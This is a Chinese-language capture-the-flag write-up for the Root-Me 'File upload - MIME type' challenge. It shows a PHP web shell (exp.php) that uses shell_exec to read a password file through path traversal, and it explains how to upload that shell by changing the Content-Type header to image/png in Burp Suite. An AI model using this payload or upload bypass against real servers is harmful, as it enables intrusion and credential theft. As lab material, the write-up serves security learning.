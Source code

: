 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2987/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】的渗透思路是一样的，区别在于绕过方式。

上传一个文件测试一下，发现这次无法再利用双重后缀绕过了，只能上传图片后缀的文件。

![](http://exp-blog.com/wp-content/uploads/2019/01/5126813b6ad02d2685cbc997c643aab4.png)

题目提示是使用 MIME type 实现绕过。

那么构造 payloads 文件内容都是一样的，不过因为不能利用后缀绕过，所以文件名保持为 `exp.php` 即可：

```php
<?php
	// exp.php
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

使用 Burp Suite -> Repeater 进行上传，同时要修改 `Content-Type` 的值为 `image/png` 即可实现绕过（原值为 `application/octet-stream`）。

![](http://exp-blog.com/wp-content/uploads/2019/01/3f1bae6492ff78bce96aece7d2f9dc32.png)

上传成功后刷新 upload 分类页面，找到 `exp.php` 打开即可获得密码，完成挑战。


![](http://exp-blog.com/wp-content/uploads/2019/01/a8807e2fe4d8a906e359cae4257a2d7e.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
